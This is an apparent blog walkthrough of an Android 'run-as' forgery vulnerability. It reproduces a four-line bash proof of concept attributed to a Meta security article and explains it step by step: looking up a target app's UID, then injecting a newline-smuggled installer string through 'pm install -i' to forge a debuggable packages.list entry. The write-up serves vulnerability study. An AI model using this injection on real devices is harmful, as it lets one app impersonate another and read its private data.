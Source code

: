 This vulnerability was chosen for this first experiment, among other reasons, because of how easy it is to exploit. Let's see. 

Meta's article on this vulnerability provides an almost ready-to-use PoC in just 4 lines of code: 

{% highlight bash linenos %}
# Pretty ugly way to get the package's UID, but I couldn't find a simpler one. 
UID=$(pm list packages -U | sed -n "s/^package:$1 uid://p") 

# This is the line we inject... 
PAYLOAD="@null 
victim $UID 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null" 

# ...and this is how we inject it. 
pm install -i "$PAYLOAD" any-app.apk 
{% endhighlight %} 
(Taken from https://rtx.meta.security/exploitation/2024/03/04/Android-run-as-forgery.html on January 9, 2025) 

This code is made as a bash script, however, it does not work like that, but let's review each part to understand what it does: 

1. Get the UID (User ID) of the application we want to impersonate: 
   
   ```bash 
   UID=$(pm list packages -U | sed -n "s/^package:$1 uid://p") 
   ``` 
 
Here the variable `$1` (the first argument of the script) is replaced by the full name of the application, for example: com.example.vulnerable0 or com.google.android.gms.   
   If you are in the ADB shell, you can run it like this:   

   ```bash 
   pm list packages -U | sed -n "s/^package:com.example.vulnerable0 uid://p" 
   ```   
 
   For this example, we will assume that the output of this command was: `10147`. 

2. Prepare the line that we are going to inject into **packages.list**, for that we will use the `PAYLOAD` variable: 
   
   ```bash 
   # This is the line we inject... 
   PAYLOAD="@null 
   victim $UID 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null" 
   ``` 
 
The first `@null` will be the _installer_ that will be passed to the `-i` option of `pm` and then comes a _new line_ with the entry that will be injected into **packages.list**. For this case, _victim_ should be replaced with the name of the application we want to impersonate. Then, `$UID` is replaced with the result from step 1. After that, comes a `1` which is precisely where we trick `run-as` into thinking the application is _debuggable_. Then we have `/data/user/0` as the application's `data` directory; we use this because it works for any application in the context of this vulnerability. Next, `default:targetSdkVersion=28` is used to derive the SELinux domain and, in this case, it is set in a generic way that it works for any application that uses API >= 28. The rest of the arguments, according to the Meta article, are not relevant to `run-as` and I didn't investigate what they were either.   
